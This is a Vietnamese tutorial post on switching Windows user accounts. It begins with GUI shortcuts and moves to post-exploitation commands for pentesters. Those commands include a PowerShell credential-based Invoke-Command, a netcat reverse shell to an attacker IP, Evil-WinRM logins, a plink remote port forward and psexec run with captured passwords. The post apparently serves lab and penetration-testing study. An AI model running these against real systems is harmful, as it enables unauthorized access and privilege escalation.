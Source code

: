Windows hay các hệ điều hành như Linux, MacOS, ... cho phép tồn tại nhiều tài khoản người dùng trên một máy. Các tài khoản đều có thể cho phép bạn tùy biến cài đặt tùy theo sở thích của mình và tách biệt so với các thành viên khác trong khi sử dụng chung máy tính. Bài viết này mình sẽ nêu một số cách để chuyển đổi tài khoản người dùng trên Windows, nghe có vẻ khá đơn giản đúng không :D
## Sử dụng giao diện
### Windows 10
#### Cách 1
Nhấn Ctrl + ALT + Del và click Switch user

![](https://images.viblo.asia/11d57dac-5995-4079-9669-0635c858f9ac.png)

#### Cách 2
Vào start chọn avatar (user account button) trên Start Menu sau đó chọn tài khoản cần chuyển.

![](https://images.viblo.asia/4bb5b495-0b27-4935-83cf-af84e33f453f.png)

#### Cách 3
Nhấn Windows + L để khóa tài khoản hiện tại và được trở về màn hình hóa, nhấn bàn phím hoặc chuột rồi bạn sẽ thấy màn hình đăng nhập. Chọn tài khoản mà bạn muốn sử dụng và đăng nhập 

![](https://images.viblo.asia/7bceb44a-0ce9-41e3-83ec-15aed5951309.jpg)

> **Windows 8** và **Windows 7** có thể sử dụng 1 số cách bên trên, tuy nhiên các thao tác với giao diện khác biệt hơn 1 chút
## Sử dụng câu lệnh
Đối với pentester khi lên được shell trên máy Windows thì họ sẽ chỉ sử dụng được **cmd** hoặc **powershell** (trừ trường hợp lấy được remote desktop Windows). Vậy làm cách nào để switch user khi mình có thể lấy được tài khoản mật khẩu của 1 trong số những user trên Windows.

Không giống như trên Linux hoặc MacOS thì ta có thể chuyển đổi tài khoản bằng lệnh cực đơn giản là 
```sh
su <tên tài khoản>
```
sau đó nhập mật khẩu là ta có thể chuyển được sang tài khoản đó rồi. Vậy đối với Windows thì phải làm như thế nào?
#### Cách 1
Bước 1: Tải file `nc.exe` lên máy target chạy Windows (file `nc.exe` có sẵn trên Kali tại `/usr/share/windows-resources/binaries/nc.exe`)

Bước 2:  Sử dụng powershell trên máy target. Gõ powershell trên command line để khởi động powershell.

Bước 3: Copy đoạn code này paste lên máy target (Ở đây ví dụ có tài khoản mật khẩu là `UserX:P@ssW0rd`)
```powershell
$Username = 'UserX'
$Password = 'P@ssW0rd'
$pass = ConvertTo-SecureString -AsPlainText $Password -Force #Not recommended, but if rights are set on that location you can use it like this, otherwise encrypt it (recommended).
$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass

#You can use it like this, or use it with other commands and ' -Credential ...' 
Invoke-Command -ComputerName "DeviceName" -Credential $Cred -ScriptBlock {#Your Code} 
```
Với phần `#Your code` sẽ thực thi lệnh với quyền là của tài khoản `UserX` (tương tự đối với `sudo -u` trên Linux) nên sử dụng reverse shell đến máy pentester để sử dụng tài khoản `UserX` 

Ví dụ code
```
C:\test\nc.exe -e cmd.exe 10.10.14.5 4444
```
Với `10.10.14.5` là địa chỉ ip pentester, `4444` là port đang lắng nghe ở máy của pentester

#### Cách 2
Cách trên thì sử dụng khi cổng 5896 đang không được bật. Cổng 5896 là cổng dịch vụ `winrm` (Microsoft Windows Remote Management) [https://www.speedguide.net/port.php?port=5986](https://www.speedguide.net/port.php?port=5986)

Nếu cổng 5896 được bật thì sử dụng `Evil-WinRM` để switch user

Evil-WinRM  sử dụng ruby các bạn có thể tải và cài đặt tại đây [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```sh
evil-winrm -i 10.10.10.18 -u Administrator -p PassW0rd
```

Có 1 cách khác có thể bật cổng 5986 lên khi máy chủ đang chưa bật. Sử dụng Remote Port Forwarding để mở cổng 5986 thông với cổng 5986 bên máy local.

> Các bạn có thể đọc bài này của mình để hiểu cách hoạt động của Remote Port Forwarding [https://viblo.asia/p/ssh-tunneling-local-port-forwarding-va-remote-port-forwarding-07LKXJ3PlV4](https://viblo.asia/p/ssh-tunneling-local-port-forwarding-va-remote-port-forwarding-07LKXJ3PlV4)

Bước 1: Tải chương trình `plink.exe` lên target Windows, có ở sẵn Kali OS tại đường dẫn `/usr/share/windows-resources/binaries/plink.exe`

Bước 2: Khởi động dịch vụ ssh trên máy pentester

Bước 3: Gõ lệnh trên target sử dụng powershell
```powershell
.\plink.exe -l user -pw passwd -R 5985:127.0.0.1:5985 10.10.14.5
```
Với user và passwd là tài khoản mật khẩu ssh trên máy pentester, `10.10.14.5` là địa chỉ ip của máy pentester. 

Bước 4:

Sử dụng `Evil-WinRM` để kết nối tới user mình muốn
```sh
evil-winrm -i 127.0.0.1 -u Administrator -p PassW0rd
```

#### Cách 3: 
Sử dụng `psexec.exe` có thể download tại [https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```powershell
psexec.exe //domain -u UserX -p P@ssW0rd <command>
```

Vậy là mình có thể sử dụng câu lệnh với quyền của `UserX` rồi.

> Cảm ơn @testanull đã gợi ý cho mình 1 cách khá hay ;)

------
##### Trên đây là một số cách để sử dụng tài khoản khác trên Windows, nhất là đối với các bạn nào muốn leo quyền lên tài khoản cao hơn trên Win, hi vọng là bài viết có ích giúp các bạn. See you.
## Tham khảo
- https://www.computerhope.com/issues/ch001317.htm
- https://www.digitalcitizen.life/how-switch-between-user-accounts-windows-10
- https://docs.microsoft.com/en-us/sysinternals/downloads/psexec